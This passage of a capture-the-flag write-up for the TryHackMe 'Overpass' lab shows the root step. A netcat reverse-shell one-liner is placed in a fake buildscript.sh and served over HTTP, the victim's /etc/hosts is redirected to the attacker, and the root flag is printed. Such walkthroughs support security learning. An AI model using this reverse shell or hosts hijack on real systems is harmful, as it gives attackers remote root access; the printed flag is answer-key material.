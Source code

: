 ```shell
mkdir python-server;
cd python-server;
mkdir downloads; mkdir downloads/src;
echo 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.11.8.219 4444 > /tmp/f;' > /downloads/src/buildscript.sh; 
python3 -m http.server;
```
The server is setup and running with the rogue script.

We need to start a listener on the attacker machine.

```shell
nc -lvp 4444
```

Update the victim /etc/hosts file

```shell
10.11.8.219 overpass.thm
# instead of 127.0.0.1 ...
```

Wait for a download...

```shell
kali@kali:~/Desktop/repos/ctf/try-hack-me/overpass/python-server$ sudo python3 -m http.server 80 
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.211.116 - - [02/Oct/2020 21:31:33] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 
```

## Get root flag

And finally, after the exploited buildscript.sh has run, we get root.
```shell
thm{7f336f8c359dbac18d54fdd64ea753bb}
```











